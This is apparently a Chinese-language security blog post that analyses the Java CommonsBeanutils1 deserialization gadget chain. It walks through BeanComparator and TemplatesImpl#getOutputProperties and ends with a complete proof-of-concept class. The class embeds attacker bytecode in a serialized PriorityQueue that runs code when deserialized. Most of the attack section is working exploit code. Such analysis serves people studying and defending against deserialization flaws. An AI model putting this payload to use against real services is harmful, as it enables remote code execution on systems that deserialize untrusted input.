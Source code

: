 # [Java反序列化]Java-CommonsBeanutils1利用链分析




# 前言

Apache Commons Beanutils 是 Apache Commons 工具集下的另一个项目，它提供了对普通Java类对象（也称为JavaBean）的一些操作方法

JavaBean就不多说了，搞过一点javaweb开发都知道的，commons-beanutils中提供了一个静态方法 `PropertyUtils.getProperty` ，让使用者可以直接调用任意JavaBean的getter方法，比如：

```java
PropertyUtils.getProperty(new Cat(), "name");
```



# CB链分析

CB链的触发是在`org.apache.commons.beanutils.BeanComparator`，是commons-beanutils提供的用来比较两个JavaBean是否相等的类，其实现了 java.util.Comparator 接口

我们看一下他的源码，如果property不为null，那么就会执行PropertyUtils.getProperty调用JavaBean的getter方法去获取值来执行internalCompare，跟进internalCompare，会执行compare方法

```java
    public int compare(T o1, T o2) {
        if (this.property == null) {
            return this.internalCompare(o1, o2);
        } else {
            try {
                Object value1 = PropertyUtils.getProperty(o1, this.property);
                Object value2 = PropertyUtils.getProperty(o2, this.property);
                return this.internalCompare(value1, value2);
            } catch (IllegalAccessException var5) {
                throw new RuntimeException("IllegalAccessException: " + var5.toString());
            } catch (InvocationTargetException var6) {
                throw new RuntimeException("InvocationTargetException: " + var6.toString());
            } catch (NoSuchMethodException var7) {
                throw new RuntimeException("NoSuchMethodException: " + var7.toString());
            }
        }
    }



    private int internalCompare(Object val1, Object val2) {
        Comparator c = this.comparator;
        return c.compare(val1, val2);
    }
```

而前面说了`PropertyUtils.getProperty`会自动执行JavaBean的getter方法，而我们的TemplatesImpl的利用链里面，我们之前一直说的是触发`TemplatesImpl#newTransformer()`，但是其实newTransformer上面还有一层：`TemplatesImpl#getOutputProperties()`

![](https://tuchuang.huamang.xyz/img/image-20221006171924771-20221006172100059.png)

这是符合JavaBean的getter的定义的，那么我们就可以连接上CC2链子了

# 利用链构造

首先是创建TemplatesImpl

```java
ClassPool pool = ClassPool.getDefault();
CtClass clazzz = pool.get("EvilTest");
byte[] code = clazzz.toBytecode();
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{code});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
```

然后创建BeanComparator和PriorityQueue，因为要把TemplatesImpl对象传入BeanComparator进行比较

所以得把emplatesImpl对象传入传入PriorityQueue的queue

把BeanComparator传入PriorityQueue的comparator

![image-20221006174826308](https://tuchuang.huamang.xyz/img/image-20221006174826308.png)

然后就是CB的核心点，我们得把property传值为`outputProperties`，这样调用getProperty就会触发到`TemplatesImpl#getOutputProperties()`进入到利用链

![image-20221006175351339](https://tuchuang.huamang.xyz/img/image-20221006175351339.png)

```java
BeanComparator comparator = new BeanComparator();
PriorityQueue queue = new PriorityQueue(2, comparator);
// stub data for replacement later
queue.add(1);
queue.add(1);
setFieldValue(comparator, "property", "outputProperties");
setFieldValue(queue, "queue", new Object[]{obj, obj});
```

到这里CB链就构造完成了，下面就可以序列化PriorityQueue对象了

最后的POC

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue(2, comparator);
        // stub data for replacement later
        queue.add(1);
        queue.add(1);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```


